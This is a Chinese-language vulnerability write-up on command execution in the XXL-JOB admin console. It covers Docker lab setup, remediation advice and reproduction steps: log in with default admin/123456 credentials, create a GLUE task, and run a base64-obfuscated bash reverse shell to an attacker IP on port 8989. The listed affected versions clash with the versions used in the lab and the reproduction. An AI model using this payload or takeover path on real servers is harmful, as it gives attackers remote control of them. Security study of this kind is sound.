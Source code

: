 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** XXL-JOB 任务调度中心 后台任意命令执行漏洞



## 0x01 漏洞描述

在日常开发中，经常会用定时任务执行某些不紧急又非常重要的事情，例如批量结算，计算当日的订单量，当日的成本收入等。当存在大量定时任务的时候，任务的管理也会成为一个比较头痛的问题。xxl-job，就是一个比较成熟的分布式任务调度平台。XXL-JOB 任务调度中心系统存在后台命令执行漏洞，攻击者可以通过反弹shell执行任意命令，获取服务器管理权限。

## 0x02 影响版本

```text
2.3.1和2.4
```

## 0x03 修复建议

1. 将服务平台放置内网，或者隐藏端口
2. 将密码设置为强密码
3. 开源项目，有条件可以在登录口设置验证，防止爆破情况发生

## 0x04 环境搭建

安装docker以及docker-compose

```
docker pull mysql:5.7.44
docker pull xxl-job-admin:2.1.2
docker run  --name mysql -d -p 3306:3306 -e MYSQL_ROOT_PASSWORD=123456 mysql:5.7.44

github 下载 对应版本源代码文件
下载地址：https://github.com/xuxueli/xxl-job/archive/refs/tags/2.1.2.zip
解压后，进入 \doc\db 目录，将 tables_xxl_job.sql 文件导入至docker mysql 容器中
导入命令：mysql -h 容器所在宿主机IP地址 -uroot -p123456 < sql文件路径

docker run -e PARAMS="--spring.datasource.url=jdbc:mysql://容器所在宿主机IP地址:3306/xxl_job?useUnicode=true&characterEncoding=UTF-8&useSSL=false&serverTimezone=Asia/Shanghai --spring.datasource.username=root --spring.datasource.password=123456 --spring.datasource.driver-class-name=com.mysql.jdbc.Driver"  -p 9080:8080 -v /root/xxl-job/log:/data/applogs --name xxl-job-admin --privileged=true -d xuxueli/xxl-job-admin:2.1.2
```

打开浏览器输入： `http://容器所在宿主机IP地址:9080/xxl-job-admin` ，即可访问

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled.png)

## 0x05 漏洞复现

本次使用的xxl-job版本为`xxl-job-admin:2.2.0`

通过弱口令或其他方式进入后台界面

访问`http://192.168.81.173:8080/xxl-job-admin/toLogin#/`进入xxl-job-admin登陆界面

账号密码：admin/123456

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%201.png)

任务管理新增任务

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%202.png)

点击新增任务，按照下图填写后，保存

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%203.png)

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%204.png)

选择GLUE IDE, 写入反弹shell的命令

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%205.png)

保存后

攻击机在命令行界面监听8989端口即可

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%206.png)

xxl-job任务管理界面，对刚才创建的任务进行操作，选择点击执行一次

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%207.png)

反弹shell成功

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%208.png)

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%209.png)

运行模式为GLUE(Java)时反弹shell的操作与GLUE(Shell)相同

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%2010.png)

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%2011.png)

```
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguODEuMTgyLzg5ODkgMD4mMQ==}|{base64,-d}|{bash,-i}");
```

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%2012.png)

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%2013.png)
